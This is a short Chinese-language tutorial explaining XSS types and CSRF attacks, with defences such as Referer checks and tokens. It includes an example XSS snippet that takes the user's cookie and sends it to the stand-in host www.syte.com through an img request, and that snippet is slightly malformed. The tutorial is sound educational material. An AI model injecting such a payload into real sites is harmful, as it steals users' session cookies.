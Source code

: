# XSS && CSRF

## 1. XSS

XSS（Cross Site Scripting）跨站脚本攻击。

看起来很深奥，但是原理和简单，攻击者将script标签插入用户的浏览的web页面，csript代码会执行，这样可以获取用户的敏感信息。

分类：

反射性
存储型
DOM型：在url后面添加script标签内容
反射性： 比如有个网页需要，填写一个信息并返回给用户，当我们在输入框内容写成下面内容，但返回给用户就执行这个语句了。

```js
var cook = window.cookie
var img = `<img src="www.syte.com/get.php?cook=${cook}"` />
document.write(img)
```

注入这个片段后执行时获取用户 cookie 并把 cookie 发送到 `www.syte.com` 域名中。

在后端过滤这个script来解决这个问题，还有一个标签当img标签加载失败（img有一个onerror方法，图片加载失败时触发这个方法）也可以发送请求。

## 2. CSRF

CSRF（Cross Site Request Forgy）跨站请求伪造，是一种对网站的恶意利用。

举个例子，当你在一个网站上登陆成功以后，攻击者在你登陆的网站上生成一个点击的按钮或连接，比如点击抽奖等。当你点击以后，以你的名义（你登陆后发送请求时，请求会带上cookie来确认你身份）向服务器发送而已请求，比如修改你的账号密码。

csrf

要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1.登录受信任网站A，并在本地生成Cookie。

2.在不登出A的情况下，访问危险网站B。

如何让防范？

验证 HTTP Referer 字段
在请求地址中添加 token 并验证

<comment-comment/> 
